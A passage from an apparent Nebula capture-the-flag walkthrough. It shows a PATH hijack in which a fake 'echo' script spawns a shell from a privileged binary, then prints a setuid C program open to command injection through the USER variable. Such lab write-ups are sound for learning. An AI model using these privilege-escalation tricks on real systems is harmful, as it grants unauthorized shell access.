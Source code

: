 This seems to be the executable from ```flag01```'s home directory

![101](/assets/images/Nebula/101.png)

So it looks for the first ```echo``` binary in the current environment's ```PATH``` variable. If we were to execute the binary with a changed ```PATH``` pointing to another ```echo``` binary we can get a shell.

Let's write this short bash script into ```/tmp/echo```:
```
#!/bin/bash

/bin/bash
```
Give it executable permissions:
```
chmod +x /tmp/echo
```
And now let's execute it

![102](/assets/images/Nebula/102.png)


## Level 2 ##
Again, we are met with a vulnerable binary:
```cpp
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```
This time, we notice it is about command injection, since we can manipulate the name of the user.
